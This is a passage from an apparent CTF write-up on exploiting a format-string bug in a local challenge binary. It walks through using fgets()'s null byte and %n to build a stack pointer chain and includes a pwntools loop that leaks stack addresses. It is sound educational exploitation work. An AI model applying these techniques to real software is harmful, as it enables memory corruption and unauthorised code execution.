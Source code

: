 We can see there are 2 stack addresses on stack but they don't point to each other. Therefore, we will use the null byte added of `fgets()` to overwrite the least significant byte of first stack address from `0x007fffffffddc7` to `0x007fffffffdd00`. But we want `0x007fffffffdd00` point to the second stack address `0x007fffffffddc6` so that if we use `%n` for `0x007fffffffdd00 → 0x007fffffffddc6`, we can change `0x007fffffffddc6` to point back to our payload position.

So first, we will want to leak the first stack `0x007fffffffddc7` address and then calculate the offset from that leak stack to the address of second stack as follows:

```python
>>> # <Leak stack> - <Address of second stack> = <offset>
>>> 0x007fffffffddc7 - 0x007fffffffdda0 = 0x27
>>> 0x007fffffffddc7 - 0x27 = 0x007fffffffdda0
```

So we will want the leak address subtract with `0x27` will have least significant byte equal to `0x00`, and if so, when we overwrite the first stack `0x007fffffffddc7` with null byte and it becomes `0x007fffffffdd00`, it will point to the second stack address (`0x007fffffffdd00 → 0x007fffffffddc6`).

Now, to leak stack, we can use `%*<k>$` to print first 32-bit data of first stack, which means it will print `ffffddc7`, just first 32-bit of `0x007fffffffddc7`:

```python
while True:
    p = process(exe.path)
    p.recvuntil(b':##\n')

    payload = b'%*9$'
    p.sendline(payload)
    data = p.recvline(timeout=1)
    if not data:
       p.close()
       continue
    stack_leak = u32(struct.pack('<i', int(data[1:-1])))
    if ((stack_leak - 0x27) & 0xff) == 0:
       break
    p.close()
```

Run script and we can see the stack leak:

![stack-leak.png](images/stack-leak.png)

Because the stack leak can be positive or negative number so we use `struct` to get the correct hex of stack. But due to the check, this stack is not statisfy so script close connection. Until this one:
